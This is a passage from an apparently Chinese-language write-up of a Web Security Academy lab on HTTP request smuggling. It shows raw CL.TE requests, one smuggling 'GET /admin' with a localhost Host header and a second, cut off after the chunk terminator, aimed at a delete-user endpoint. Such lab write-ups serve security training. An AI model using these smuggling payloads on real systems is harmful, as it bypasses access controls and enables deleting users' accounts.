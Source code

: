 添加host头，在发送几次：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost

```

![image-20221007000338001](2022-10-HTTP/image-20221007000338001.png)

得到了删除用户的api，直接：

```http
POST / HTTP/1.1
Host: 0a8600f1034842adc0f77d2e00360034.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=FSDE0lrTI1tuBNQJt4RSqapGBCHSKent
Content-Length: 63
Transfer-Encoding: chunked

0

```